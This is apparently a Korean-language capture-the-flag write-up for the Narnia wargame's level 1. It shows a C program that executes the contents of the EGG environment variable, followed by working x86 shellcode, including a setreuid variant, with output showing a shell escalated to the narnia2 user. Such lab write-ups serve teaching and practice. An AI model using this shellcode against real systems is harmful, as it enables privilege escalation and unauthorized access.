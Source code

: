 ## 1. 문제 확인
- ID : narnia1
- Target : /narnia/narnia1
- Flag : /etc/narnia_pass/narnia2
```
narnia1@gibson:/narnia$ ./narnia1
Give me something to execute at the env-variable EGG
narnia1@gibson:/narnia$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
- 환경변수 EGG의 값을 읽어와서 ret변수에 저장하고, ret()를 호출하여 ret 포인터의 값을 실행함
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
### 2.2 Code 분석
- 환경변수 EGG에 쉘코드를 넣어주면 쉘을 띄울 수 있음
```
	$ export EGG=<쉘코드>
```

<br/><br/>
## 3. Exploit
- EGG 환경변수에 /bin/sh 쉘코드를 넣어주고 프로그램을 실행하면 narnia1 권한으로 쉘이 뜸
```
	narnia1@gibson:/narnia$ export EGG=`echo -e "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"`
	narnia1@gibson:/narnia$ ./narnia1
	Trying to execute EGG!
	$ id
	uid=14001(narnia1) gid=14001(narnia1) groups=14001(narnia1)
```
- setreuid 가 포함된 쉘코드로 바꿔 넣어주고 프로그램을 실행하면 narnia2 권한의 쉘이 뜸
```
	narnia1@gibson:/narnia$ export EGG=`echo -e "\x6a\x31\x58\xcd\x80\x89\xc3\x6a\x46\x58\x89\xd9\xcd\x80\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80"`
	narnia1@gibson:/narnia$ ./narnia1
	Trying to execute EGG!
	$ id
	uid=14002(narnia2) gid=14001(narnia1) groups=14001(narnia1)
	$
```
